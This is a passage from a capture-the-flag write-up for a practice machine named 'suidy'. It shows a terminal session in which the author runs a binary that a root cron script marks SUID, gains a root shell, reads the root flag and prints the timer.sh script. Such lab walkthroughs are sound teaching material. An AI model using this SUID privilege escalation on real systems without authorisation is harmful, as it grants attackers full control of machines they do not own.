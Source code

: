 Now I waited for 20-30 sec and It got SUIDs permission so lets execute it now →

```bash
theuser@suidy:/home/suidy$ ls -al
total 52
drwxr-xr-x 3 suidy suidy    4096 sep 27  2020 .
drwxr-xr-x 4 root  root     4096 sep 26  2020 ..
-rw------- 1 suidy suidy      12 sep 27  2020 .bash_history
-rw-r--r-- 1 suidy suidy     220 sep 26  2020 .bash_logout
-rw-r--r-- 1 suidy suidy    3526 sep 26  2020 .bashrc
drwxr-xr-x 3 suidy suidy    4096 sep 26  2020 .local
-r--r----- 1 suidy suidy     197 sep 26  2020 note.txt
-rw-r--r-- 1 suidy suidy     807 sep 26  2020 .profile
-rwsrwsr-x 1 root  theuser 16712 oct  7 17:58 suidyyyyy
theuser@suidy:/home/suidy$ ./suidyyyyy 
root@suidy:/home/suidy# whoami
root
root@suidy:/home/suidy# id
uid=0(root) gid=0(root) grupos=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(theuser)
root@suidy:/home/suidy# cd /root
root@suidy:/root# ls -al
total 32
drwx------  3 root root 4096 sep 27  2020 .
drwxr-xr-x 18 root root 4096 sep 26  2020 ..
-rw-------  1 root root   44 sep 27  2020 .bash_history
drwxr-xr-x  3 root root 4096 sep 26  2020 .local
-rw-r--r--  1 root root  148 ago 17  2015 .profile
-rw-r--r--  1 root root   11 sep 27  2020 root.txt
-rw-r--r--  1 root root   66 sep 26  2020 .selected_editor
-rwxr-xr-x  1 root root   42 sep 26  2020 timer.sh
root@suidy:/root# cat root.txt
FLAGFLAGFLAG
root@suidy:/root# cat timer.sh 
#!/bin/sh
chmod +s /home/suidy/suidyyyyy

root@suidy:/root#
```
{: .nolineno}
{: .nolineno}

I am the root now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }